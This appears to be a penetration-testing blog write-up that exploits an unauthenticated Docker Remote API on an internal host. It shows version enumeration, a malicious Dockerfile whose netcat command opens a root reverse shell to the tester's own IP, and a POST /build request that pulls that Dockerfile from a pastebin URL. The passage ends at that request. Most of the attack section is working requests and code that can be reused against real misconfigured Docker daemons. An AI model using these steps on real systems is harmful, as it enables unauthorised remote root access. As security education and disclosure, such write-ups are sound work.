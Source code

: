 ![Information about the Docker Daemon]({{ "https://raw.githubusercontent.com/fusionx3/fusionx3.github.io/master/images/docker_1.png" | absolute_url }})


Docker API hasSo, the system administrator hasn't restricted access to the Docker API (A big mistake), and apparently, since the Docker daemon runs as a privileged user, I doubt that the system administration bothered

To enumerate the version of the API, we appended `v1.30/info` to the URL and the API explicitly told us its version. v1.30 is the latest version of the API at the time of writing this article, and according to the documentation, you can also query the server's info by submitting a GET request to this URL: `http://10.0.5.10:4000/v1.30/info`
```http
HTTP/1.1 400 Bad Request
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 03 Oct, 2017 15:52:16 GMT
Content-Type: application/json
Content-Length: 96
Connection: Close
{
"message":"client is newer than server (client API version: 1.30, server API version: 1.24)"
}
```

<br>
## **Gaining Access to a Container**

After some quick reading through the [Docker API Documentation](https://docs.docker.com/engine/api/v1.24/), creating a custom image and starting it as a container is simply a matter of a few POST requests.

Since Docker allows us to create an image from a _Dockerfile_ through the UNIX socket, it shouldn't be different if performed through the API, right?
We begin to craft our own malicious _Dockerfile_ and upload it anywhere on the internet. The Dockerfile I created utilized a clean Ubuntu installation and the good ol' netcat to give us a reverse TCP shell with root access to the container. Our _Dockerfile_ should look like this:

```docker
FROM ubuntu:16.04
RUN apt-get update -y && apt-get install netcat -y
CMD ["nc", "-n", "My_OWN_IP", "4444", "-e", "/bin/bash"]
```

Afterwards, we start to craft the POST request and the JSON object needed in order to build our image.

```http
POST /build?remote=https://pastebin.com/raw/twq0c1M4 HTTP/1.1
Host: 10.0.5.10:4000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 2
{}
```
